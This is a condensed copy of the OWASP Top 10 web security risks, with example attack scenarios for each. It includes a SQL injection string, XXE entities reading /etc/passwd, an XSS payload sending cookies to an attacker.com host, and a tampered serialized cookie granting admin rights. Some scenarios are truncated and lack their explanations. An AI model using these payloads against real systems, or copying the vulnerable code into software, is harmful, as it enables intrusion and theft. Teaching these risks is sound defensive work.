

OWASP Top Ten
The OWASP Top 10 is a standard awareness document for developers and web application security.
It represents a broad consensus about the most critical security risks to web applications.
Top 10 Web Application Security Risks
Injection
Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization
Example Attack Scenarios
Scenario #1: An application uses untrusted data in the construction of the following vulnerable SQL call:
String query = "SELECT * FROM accounts
WHERE custID='" + request.getParameter("id") + "'";
Scenario #2: Similarly, an application’s blind trust in frameworks may result in queries that are still vulnerable, (e.g. Hibernate Query Language (HQL)):
Query HQLQuery = session.createQuery("FROM accounts
WHERE custID='" + request.getParameter("id") + "'");
In both cases, the attacker modifies the ‘id’ parameter value in their browser to send: ‘ or ‘1’=’1. For example:
http://example.com/app/accountView?id=' or '1'='1Broken Authentication
Application functions related to authentication and session management are often implemented incorrectly, allowing attackers to compromise passwords, keys, or session tokens, or to exploit other implementation flaws to assume other users’ identities temporarily or permanently.
Example Attack Scenarios
Scenario #1: Credential stuffing, the use of lists of known passwords, is a common attack.
Scenario #2: Most authentication attacks occur due to the continued use of passwords as a sole factor. Once considered best practices, password rotation and complexity requirements are viewed as encouraging users to use, and reuse, weak passwords.
Scenario #3: Application session timeouts aren’t set properly.
Sensitive Data Exposure
Many web applications and APIs do not properly protect sensitive data, such as financial, healthcare, and personal data. Attackers may steal or modify such weakly protected data to conduct credit card fraud, identity theft, or other crimes.
Example Attack Scenarios
Scenario #1: An application encrypts credit card numbers in a database using automatic database encryption.
Scenario #2: A site doesn’t use or enforce TLS for all pages or supports weak encryption.
Scenario #3: The password database uses unsalted or simple hashes to store everyone’s passwords.
XML External Entities (XXE)

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.
Example Attack Scenarios
Scenario #1: The attacker attempts to extract data from the server:
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
Scenario #2: An attacker probes the server’s private network by changing the above ENTITY line to:
<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
Broken Access Control
Restrictions on what authenticated users are allowed to do are often not properly enforced.
Example Attack Scenarios
Scenario #1: The application uses unverified data in a SQL call that is accessing account information:
pstmt.setString(1, request.getParameter("acct"));
ResultSet results = pstmt.executeQuery( );
An attacker simply modifies the ‘acct’ parameter in the browser to send whatever account number they want. If not properly verified, the attacker can access any user’s account.
http://example.com/app/accountInfo?acct=notmyacct
Security misconfiguration
Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured HTTP headers, and verbose error messages containing sensitive information.
Cross-Site Scripting (XSS)
XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript.
Example Attack Scenarios
Scenario #1: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:
(String) page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";
The attacker modifies the ‘CC’ parameter in the browser to:
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'.
Insecure Deserialization

Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks.
Example Attack Scenarios
Scenario #1: A React application calls a set of Spring Boot microservices. Being functional programmers, they tried to ensure that their code is immutable.
Scenario #2: A PHP forum uses PHP object serialization to save a “super” cookie, containing the user’s ID, role, password hash, and other state:
a:4:{i:0;i:132;i:1;s:7:"Mallory";i:2;s:4:"user";
i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
An attacker changes the serialized object to give themselves admin privileges:
a:4:{i:0;i:1;i:1;s:5:"Alice";i:2;s:5:"admin";
i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
Using Components with Known Vulnerabilities
Components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover.
Example Attack Scenarios
Scenario #1: Components typically run with the same privileges as the application itself, so flaws in any component can result in serious impact. Such flaws can be accidental (e.g. coding error) or intentional (e.g. backdoor in component).
Insufficient Logging & Monitoring
Insufficient logging and monitoring, coupled with missing or ineffective integration with incident response, allows attackers to further attack systems, maintain persistence, pivot to more systems, and tamper, extract, or destroy data.
Example Attack Scenarios
Scenario #1: An open source project forum software run by a small team was hacked using a flaw in its software. The attackers managed to wipe out the internal source code repository containing the next version, and all of the forum contents. Although source could be recovered, the lack of monitoring, logging or alerting led to a far worse breach. The forum software project is no longer active as a result of this issue.
Scenario #2: An attacker uses scans for users using a common password. They can take over all accounts using this password. For all other users, this scan leaves only one false login behind. After some days, this may be repeated with a different password.
Scenario #3: A major US retailer reportedly had an internal malware analysis sandbox analyzing attachments. The sandbox software had detected potentially unwanted software, but no one responded to this detection. The sandbox had been producing warnings for some time before the breach was detected due to fraudulent card transactions by an external bank.